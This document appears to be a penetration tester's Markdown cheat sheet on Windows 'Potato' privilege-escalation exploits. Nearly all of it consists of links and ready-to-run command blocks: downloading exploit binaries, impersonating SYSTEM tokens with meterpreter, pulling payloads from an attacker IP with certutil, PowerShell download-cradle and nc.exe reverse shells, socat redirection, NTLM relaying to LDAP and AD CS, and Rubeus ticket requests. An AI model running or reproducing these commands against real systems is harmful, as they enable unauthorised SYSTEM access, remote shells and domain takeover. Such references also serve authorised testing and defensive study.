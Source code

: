 # Potatoes

* [https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
* [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)




## RottenPotato

* [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
* [https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
* [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)

```
$ curl -L https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe > r.exe
meterpreter > upload r.exe
meterpreter > load incognito
meterpreter > execute -cH -f r.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```




## LonelyPotato

* [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)




## JuicyPotato

* [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
* [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
* [https://ohpe.it/juicy-potato/CLSID](https://ohpe.it/juicy-potato/CLSID)

```
$ curl -L https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe > j.exe
...Using pwsh reverse shell...
$ curl -L https://github.com/samratashok/nishang/raw/master/Shells/Invoke-PowerShellTcpOneLine.ps1 > rev.ps1
Cmd > certutil -urlcache -split -f http://10.10.13.37/j.exe C:\Windows\System32\spool\drivers\color\j.exe
Cmd > echo cmd /c powershell -exec bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')" > rev.bat
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\rev.bat
...Using nc.exe...
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\nc.exe "10.10.13.37 1337 -e cmd"
```




## RoguePotato

* [https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

Redirect traffic that comes to 135 port on Attacker (`10.10.13.37`) with `socat` back to the Victim (`192.168.1.11`) on port 9999 (RogueOxidResolver is running locally on port 9999 on Victim):

```
$ socat tcp-listen:135,reuseaddr,fork tcp:192.168.1.11:9999
```

Trigger the potato to run a binary with high privileges (don't forget to start a listener if sending a reverse shell):

```
Cmd > .\RoguePotato.exe -r 10.10.13.37 -e "C:\windows\Temp\nc.exe 10.10.13.37 443 -e cmd" -l 9999
```




## RemotePotato0

* [https://github.com/antonioCoco/RemotePotato0/releases](https://github.com/antonioCoco/RemotePotato0/releases)

```
$ sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
$ sudo ntlmrelayx.py -t ldap://192.168.1.11 --no-wcf-server --escalate-user snovvcrash
Cmd > query user
Cmd > .\RemotePotato0.exe -r 10.10.13.37 -p 9998 -s 5
```

Combining with ESC8:

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --no-wcf-server --adcs --template User
Cmd > .\RemotePotato0.exe -m 0 -r 10.10.13.37 -x 10.10.13.37 -p 9998 -s 5 -c "{f8842f8e-dafe-4b37-9d38-4e0714a61149}"
PS > .\Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```




## GenericPotato

* [https://micahvandeusen.com/the-power-of-seimpersonation/](https://micahvandeusen.com/the-power-of-seimpersonation/)
* [https://github.com/micahvandeusen/GenericPotato](https://github.com/micahvandeusen/GenericPotato)




## EfsPotato

* [https://github.com/zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)




## Tools



### SweetPotato

- [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)

```
Cmd > .\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <BASE64_CMD>"
```



### MultiPotato

- [https://github.com/S3cur3Th1sSh1t/MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato)
